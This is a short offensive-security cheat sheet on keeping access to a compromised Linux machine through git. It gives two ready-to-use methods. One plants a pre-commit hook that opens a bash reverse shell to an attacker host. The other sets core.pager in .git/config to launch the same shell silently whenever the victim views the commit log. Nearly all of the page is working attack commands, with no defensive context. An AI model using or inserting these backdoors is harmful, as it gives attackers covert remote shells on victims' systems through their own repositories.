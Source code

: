 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Git Commits

> [!INFO]
> Assume the target has created a git project.
> ```
$ git init
> ```

## Hooks

```
$ cat > .git/hooks/pre-commit << EOF
bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1' &
EOF
```

Provide the right permissions

```
$ chmod 775 .git/hooks/pre-commit
```

Then wait for the target to push a commit.

```
$ git add -A

$ git commit -m "made a commit"
```

## Config

```
$ cat > .git/config << EOF
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
        pager = nohup bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'>/dev/null 2>&1 & ${PAGER:-less}
EOF
```

Then wait for the target to view the commit logs.

```
$ git [--no-pager] log
```

---
## References

- [[Linux Post Exploitation Persistence References]]